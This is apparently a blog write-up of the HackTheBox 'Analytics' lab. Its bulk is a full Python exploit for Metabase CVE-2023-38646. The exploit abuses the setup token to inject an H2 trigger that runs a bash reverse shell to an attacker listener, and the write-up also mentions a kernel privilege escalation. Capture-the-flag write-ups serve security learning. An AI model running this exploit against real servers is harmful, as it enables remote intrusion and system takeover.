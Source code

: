 ```yaml
---
layout: post
title: "Analytics d20834dbe29d4fc69b3712e6d0384a6c"
date:   2025-07-10 12:05:57 -0400
categories: writeups
---
```


# Analytics

HackTheBox: Medium

<aside>
💡 Analytics is a linux machine where we can exploit some vulnerabilities(**RCE vulnerability**), and learn the importance of save sensitive information.

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled.png' | relative_url }})

Let’s look around http service

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_1.png' | relative_url }})

A login interface change to this subdomain

Metabase has a vulnerability (CVE-2023-38646)

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_2.png' | relative_url }})

## 2: User flag

Use this POC

```bash
import requests
import argparse
import base64
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from urllib.parse import urlparse

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_setup_token_and_version(ip_address):
    endpoint = "/api/session/properties"
    url = f"{ip_address}{endpoint}"
    try:
        print(f"[DEBUG] Fetching setup token from {url}...")
        response = requests.get(url, verify=False)
        if response.status_code == 200:
            data = response.json()
            setup_token = data.get("setup-token")
            metabase_version = data.get("version", {}).get("tag")

            if setup_token is None:
                print(f"[DEBUG] Setup token not found or is null for IP: {ip_address}\n")
            else:
                print(f"[DEBUG] Setup Token: {setup_token}")
                print(f"[DEBUG] Version: {metabase_version}")

            return setup_token
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {ip_address}.\n")

def post_setup_validate(ip_address, setup_token, listener_ip, listener_port):
    payload = base64.b64encode(f"bash -c 'bash -i >&/dev/tcp/{listener_ip}/{listener_port} 0>&1'".encode()).decode()

    print(f"[DEBUG] Payload = {payload}")

    endpoint = "/api/setup/validate"
    url = f"{ip_address}{endpoint}"
    headers = {'Content-Type': 'application/json'}
    data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "test",
            "engine": "h2"
        }
    }

    print(f"[DEBUG] Sending request to {url} with headers {headers} and data {json.dumps(data, indent=4)}")

    try:
        response = requests.post(url, headers=headers, json=data, verify=False)
        print(f"[DEBUG] Response received: {response.text}")
        if response.status_code == 200:
            print(f"[DEBUG] POST to {url} successful.\n")
        else:
            print(f"[DEBUG] POST to {url} failed with status code: {response.status_code}\n")
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {url}\n")

def preprocess_url(user_input):
    parsed_url = urlparse(user_input)
    protocol = f"{parsed_url.scheme}://" if parsed_url.scheme else "http://"
    netloc = parsed_url.netloc or parsed_url.path
    return protocol + netloc.rstrip('/')

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Check setup token')
    parser.add_argument('--rhost', type=str, help='Metabase server IP address (including http:// or https:// and port number if needed)')
    parser.add_argument('--lhost', type=str, help='Listener IP address')
    parser.add_argument('--lport', type=int, default=4444, help='Listener port (default is 4444)')
    args = parser.parse_args()

    print(f"[DEBUG] Original rhost: {args.rhost}")
    args.rhost = preprocess_url(args.rhost)
    print(f"[DEBUG] Preprocessed rhost: {args.rhost}")

    print(f"[DEBUG] Input Arguments - rhost: {args.rhost}, lhost: {args.lhost}, lport: {args.lport}")

    setup_token = get_setup_token_and_version(args.rhost)
    print(f"[DEBUG] Setup token: {setup_token}")
    if setup_token:
        post_setup_validate(args.rhost, setup_token, args.lhost, args.lport)
```

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_5.png' | relative_url }})

## 3: Priv esc

![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_6.png' | relative_url }})

We see a kernel with an outdated version (CVE-2023-2640)

Just give it executable premises after downloaded it on tmp

We’ve got root flag
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>

